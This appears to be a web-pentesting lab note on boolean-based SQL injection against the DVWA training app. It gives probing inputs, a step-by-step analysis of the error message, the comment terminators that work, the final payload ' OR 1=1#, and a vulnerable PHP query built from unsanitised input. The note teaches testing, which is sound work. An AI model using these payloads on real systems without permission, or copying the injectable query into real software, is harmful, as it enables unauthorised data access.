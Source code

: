 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - server-side-attack
  - sql-injection
  - boolean-based
  - dvwa
---
```

# 02 - Inject SQL

## 2.1 - Vulnerability Detection

### 2.1.1 - Exploring The Parameter

#### 2.1.1.1 - Exceed The Upper and Lower Boundary Limits

We will try to determine the range of the data resides in the database to find the limits by exceeding the boundary range.

```
id=0
id=1
id=2
id=3
id=4
id=5
id=6
```

The start of the valid responses.

![[01 - Valid Response Input.png]]

Until reaching the end of the data of what is available in the database.

![[02 - Invalid Response Input.png]]

#### 2.1.1.2 - Testing Injection With Arithmetic Expression

This will provide an indicator if the numeric values perform mathematical operation. A probable factor of SQL injection however nothing works.

```
id=6-1
id=6-2
id=5+1
id=2*2
id=6/3
```

#### 2.1.1.3 - Invalidate Values

This will provide a clear space to perform data collection when exploiting the parameter.

Exceeding the boundary limits. ^33ca41

```
id=99
id=-1
```

Changing the numeric datatype to decimal.

```
id=1.0
id=1.5
```

Using strings. ^840ca1

```
id=a
id=abcdef
```

Using SQL logical operators `OR`, `AND`, `XOR`, `NOT` ^860e62

```
id=1 AND 1=1
id=1 AND 1=2
```

### 2.1.2 - Testing Injection With Strings

#### 2.1.2.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[03 - Break Query.png]]

#### 2.1.2.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' '

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1''
```

Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

Let's imagine the vulnerable PHP code snippet from the webserver backend processes it. This isn't necessary but it's just for understanding the process.

```php
$sql = "SELECT first_name, last_name FROM users WHERE id = '$id'";
```

We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.2.3 - Joining the Query (Comment Out Query)

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

```sql
'--
```

![[04 - Join Query with Hyphens.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

```sql
'#
```

![[05 - Query Joined via Hashtag.png]]

![[06 - Valid Response via Query.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

```sql
'-- -
```

![[07 - Query Joined via Comments.png]]

![[08 - Comments with Valid Response.png]]

Excellent now we can move on.

### 2.1.3 - Craft SQL Exploit

This is the syntax with a place holder of SQL payload.

```
'<SQL_Payload>#
```

### 2.1.4 - Retrieving Hidden Data

^9167dd

#### 2.1.4.1 - Exploit

Let's retrieve the hidden data.

```sql
' OR 1=1#
```

![[09 - Boolean-Based Query Payload.png]]

![[10 - Data Queried.png]]

You can switch to different SQL logical operators `OR`, `AND`, `XOR`, `NOT`. Experiment this on your own depending on web application you're up against. These techniques are possible due to the references I found online. I strongly recommend you to read them one by one because some SQL statement error responses may differ.

---
## References

### Backlinks

- [[02 - Boundaries|Helpers: In-Band SQL Queries]]
